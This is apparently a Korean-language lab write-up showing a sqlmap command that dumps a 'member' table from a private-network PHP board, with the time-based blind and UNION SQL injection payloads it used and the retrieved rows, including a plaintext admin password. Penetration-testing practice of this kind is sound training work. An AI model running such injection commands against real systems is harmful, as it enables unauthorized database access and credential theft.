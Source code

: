 ```

[*] ending @ 14:46:56 /2020-10-22/

```



##### Value 확인

member 확인

root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" -T "member" --dump

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:48:11 /2020-10-22/

[14:48:11] [INFO] resuming back-end DBMS 'mysql' 
[14:48:11] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=9nmb2n31943...vuah5b2ms4'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: num (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=1 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))mvSW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: num=-7367 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b7a7a71,0x4d5a4a437959714c74746f48517664794f6f4c734e7866545567667464654e726d5a5542464e5977,0x7178717071),NULL,NULL,NULL-- -
---
[14:48:19] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:48:19] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:48:19] [INFO] fetching current database
[14:48:19] [INFO] fetching columns for table 'member' in database 'WebTest'
[14:48:19] [INFO] resumed: 'no','int(11)'
[14:48:19] [INFO] resumed: 'u_id','varchar(20)'
[14:48:19] [INFO] resumed: 'u_pass','varchar(50)'
[14:48:19] [INFO] resumed: 'u_name','varchar(20)'
[14:48:19] [INFO] resumed: 'nickname','char(20)'
[14:48:19] [INFO] resumed: 'age','int(11)'
[14:48:19] [INFO] resumed: 'email','char(50)'
[14:48:19] [INFO] resumed: 'reg_date','datetime'
[14:48:19] [INFO] fetching entries for table 'member' in database 'WebTest'                   
[14:48:19] [WARNING] reflective value(s) found and filtering out
[14:48:19] [INFO] retrieved: '1','30','admine@kh.com','멍청이','2020-10-16 17:04:50','tester','...
[14:48:19] [INFO] retrieved: '2','0','','관리자','2020-10-16 17:04:50','admin','관리자','P@ssw0rd'                                                                                            
[14:48:19] [INFO] retrieved: '3',' ',' ','이지','0000-00-00 00:00:00','easy','','12'
[14:48:19] [INFO] retrieved: '5','24','hacker@kh.com','해커','2020-10-21 14:38:33','hacker','해...
```